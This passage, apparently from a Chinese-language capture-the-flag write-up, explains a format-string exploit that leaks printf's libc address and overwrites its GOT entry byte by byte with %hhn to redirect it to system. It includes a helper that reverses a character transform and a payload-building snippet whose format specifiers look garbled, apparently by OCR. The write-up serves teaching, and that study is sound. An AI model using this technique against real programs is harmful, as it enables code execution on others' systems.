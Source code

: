 ```py

    # 将整数分解为字节
    hex_bytes = input_value.to_bytes((input_value.bit_length() + 7) // 8, byteorder='big')
    
    for byte in hex_bytes:
        char = chr(byte)  # 转换字节为字符
        if char in table1:  # 在 table1 中，逆向为小写字母
            original_bytes.append(table1.index(char) + ord('a'))
        elif char in table2:  # 在 table2 中，逆向为大写字母
            original_bytes.append(table2.index(char) + ord('A'))
        elif char in table3:  # 在 table3 中，逆向为数字
            original_bytes.append(table3.index(char) + ord('0'))
        else:
            original_bytes.append(byte)  # 保留未匹配的字符

    # 组合字节并返回原始整数
    return int.from_bytes(original_bytes, byteorder='big')
```
泄露的地址与libc中`printf`地址后三位相符合，因此我们进而可以通过偏移得到`system`真实地址。我们发现`printf`与`system`地址仅有倒数第二与第三字节不同，但是为了方便，我们就覆盖后三个字节。我们用%hhn进行覆盖，这是逐字节覆盖，问题在于我们如何输出这么多？可以利用%c方法，用这个方法可以形成任意多输入，但是我们注意到%hhn是逐字节，因此超过255之后就会重新回到0，通过这个方法就可以逐步修改字节了：
```py
payload = ('%'+change_num1+'C%i3$hhn').encode()           #利用%hhn进行逐字节写入
payload += ('%'+change_num2+'C%iA$hhn').encode()
payload += ('%'+change_num3+'C%i5$hhn').encode()
payload = payload.ljust(12 * 3 + 4, b'a')
payload += p64(reverse_transform_integer(printf_real_got)) + p64(printf_real_got+1) + p64(printf_real_got+2) #太坑了，第一个地址字符变换后有零截断，所以后面两个地址没有进行变换，不需要进行字符变换。
```
最需要注意的是，由于这里`printf`地址没有8个字节，存在`\x00`填充，因此在变换第一个之后，后面就不需要变换了(这也是我意识到怎么绕过change_str的原因)。

PS:这题主要是限制了读入字符，如果可以多读一点，可以通过泄露Canary完成栈溢出然后ret2libc也是可以成立的。


## 最后
如果有任何可能的问题或者见解，欢迎在群里讨论，毕竟我也不是很会喵。